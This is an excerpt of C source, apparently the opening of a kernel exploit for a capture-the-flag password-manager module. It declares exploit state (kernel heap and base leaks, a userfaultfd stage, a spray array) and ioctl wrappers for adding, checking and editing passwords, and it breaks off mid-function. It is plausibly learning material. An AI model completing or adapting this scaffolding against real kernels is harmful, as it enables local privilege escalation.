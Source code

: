 ```c
cpu_set_t pwn_cpu;
int fd;
unsigned long kheap;
unsigned long kbase;

void *page;
char *buf;
int uffd_stage = 0;
int spray[0x50];

typedef struct {
  unsigned int index;
  unsigned int size;
  char *password;
} request_t;

typedef struct {
  unsigned int size;
  char *password;
} password_entity;

typedef struct {
  password_entity *passwords[0x20];
} password_list;


int add_password(unsigned int index, unsigned int size, char *pw){
    //printf("ADD\n");
    request_t req;
    memset(&req, '\0', sizeof(request_t));
    req.index = index;
    req.size = size;
    req.password = pw;
    int ret = ioctl(fd, ADD_PW, &req);
    if (ret < 0) die("Add");
    //printf("Created #%d\n", ret);
    return ret;
}

int check_password(unsigned int index, char *pw){
    //printf("ADD\n");
    request_t req;
    memset(&req, '\0', sizeof(request_t));
    req.index = index;
    req.size = 0;
    req.password = pw;
    int ret = ioctl(fd, CHK_PW, &req);
    if (ret < 0) die("check password");
    //printf("Created #%d\n", ret);
    return ret;
}

int edit_password(unsigned int index, char *pw){
    //printf("ADD\n");
    request_t req;
    memset(&req, '\0', sizeof(request_t));
    req.index = index;
    req.size = 0;
    req.password = pw;
    int ret = ioctl(fd, EDIT_PW, &req);
    if (ret < 0) die("EDIT");
    //printf("Created #%d\n", ret);
    return ret;
```